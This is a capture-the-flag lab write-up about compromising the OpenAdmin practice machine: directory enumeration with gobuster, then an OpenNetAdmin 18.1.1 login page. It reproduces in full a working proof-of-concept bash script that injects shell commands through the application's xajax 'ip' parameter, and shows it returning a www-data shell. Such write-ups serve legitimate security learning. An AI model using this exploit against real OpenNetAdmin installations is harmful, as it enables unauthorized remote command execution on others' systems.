 # 10 - HTTP


# Default Apache Page

![](vx_images/2819950169095.png)


A simple default apache page. There isn't much to do on here. Let's run a gobuster on it to reveal hidden pages.



# gobuster
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ cat gobuster/initial-x.log | grep -v 403
/index.html           (Status: 200) [Size: 10918]
/.                    (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
```


# Music
![](vx_images/5788649515710.png)

`Login` menu redirects us to another place in the parent directory.

# Login page, OpenNetAdmin
![](vx_images/1497536506507.png)

The version for OpenNetAdmin is 18.1.1  and this version is recorded as vulnerable. There are a several PoC scripts on the internet. The one I'll be using is from exploitdb.


# [Exploit](https://www.exploit-db.com/exploits/47691)
![](vx_images/2167185867329.png)

# exploit.sh
```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```


From the PoC, it looks like a command injection vulnerability.

# Shell 

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ bash exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```